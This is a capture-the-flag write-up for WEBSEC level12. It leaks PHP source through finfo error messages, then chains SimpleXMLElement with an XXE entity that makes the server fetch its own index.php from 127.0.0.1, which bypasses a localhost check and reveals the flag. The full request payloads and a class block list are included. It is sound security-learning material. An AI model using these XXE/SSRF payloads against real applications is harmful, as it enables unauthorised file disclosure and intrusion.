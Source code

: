 ```yaml
---
layout: default
title: level12
---
```


In this challenge we can instanciate a class, I searched in google and found this [vulnerabilities in class instanciation](https://labs.detectify.com/security-guidance/modern-php-security-part-1-bug-classes/).

We use `finfo` to leak the file `index.php`..

when we send this payload: `class=finfo&param1=0&param2=index.php`, we get as an output stuff that looks like that:
```
Notice: finfo::finfo(): Warning: offset `<!DOCTYPE html>' invalid in /index.php on line 61
Notice: finfo::finfo(): Warning: type `<!DOCTYPE html>' invalid in /index.php on line 61
Notice: finfo::finfo(): Warning: offset `<html>' invalid in /index.php on line 61
...
```


And then, if we'll remove the warnings:
```php
 <?php
    ini_set('display_errors', 'on');
    ini_set('error_reporting', E_ALL);

    if (isset($_POST['class']) && isset($_POST['param1']) && isset($_POST['param2'])) {
        $class = strtolower($_POST['class']);

        if (in_array($class, ['splfileobject', 'globiterator', 'directoryiterator', 'filesystemiterator'])) {
            die('Dangerous class detected.');
        } else {
            $result = new $class($_POST['param1'], $_POST['param2']);
            echo '<br><hr><br><div class="row"><pre>';
        }
    }

    #### ----------------------------------
    #### Very interesting
    $text = 'Niw0OgIsEykABg8qESRRCg4XNkEHNg0XCls4BwZaAVBbLU4EC2VFBTooPi0qLFUELQ==';
    $key = ini_get('user_agent');

    if ($_SERVER['REMOTE_ADDR'] === '127.0.0.1') {
        if ($_SERVER['HTTP_USER_AGENT'] !== $key) {
            die("Cheating is bad, m'kay?");
        }

        $i = 0;
        $flag = '';

        foreach (str_split(base64_decode($text)) as $letter) {
            $flag .= chr(ord($key[$i++]) ^ ord($letter));
        }

        die($flag);
    }
?>
/*
Congratulation, you can read this file, but this is not the end of our journey.

- Thanks to cutz for the QA.
- Thanks to blotus for finding a (now fixed) weakness in the "encryption" function.
- Thanks to nurfed for nagging us about a cheat
*/
```
Okay, it looks like the only way to retrieve the flag, which is encrypted, is by doing `SSRF`, and then It'll think we are coming from inside the system.

So, we'll use `SimpleXMLElement` and exploit `XXE` to achieve SSRF, as showen here [exploit class instanciation using SSRF](https://www.pwntester.com/blog/2014/01/17/hackyou2014-web400-write-up/).

param1 will be the `XXE`, We wanna leak `index.php`, so this is our payload:
```
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=http://127.0.0.1/level12/index.php" >]><foo>&xxe;</foo>
```
We use php schema to b64 encode this, and by this way we access from local host :D

Also, the second param i chose from here [constants for second param of SimpleXMLElement._construct function](https://www.php.net/manual/en/libxml.constants.php), I chose `3`, you can simply use burp intruder and bruteforcing this.

this will be our payload:
`class=SimpleXMLElement&param1=<!DOCTYPE foo [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=http://127.0.0.1/level12/index.php" >]><foo>&xxe;</foo>&param2=3`

![final FLAG](./images/level12.png)

YAY, we can see it uses the exact CTF we learned from, this is the exact write-up [hackyou2014-web400-write-up](https://www.pwntester.com/blog/2014/01/17/hackyou2014-web400-write-up/).

**Flag:** ***`WEBSEC{Many_thanks_to_hackyou2014_web400_MSLC_<3}`*** 
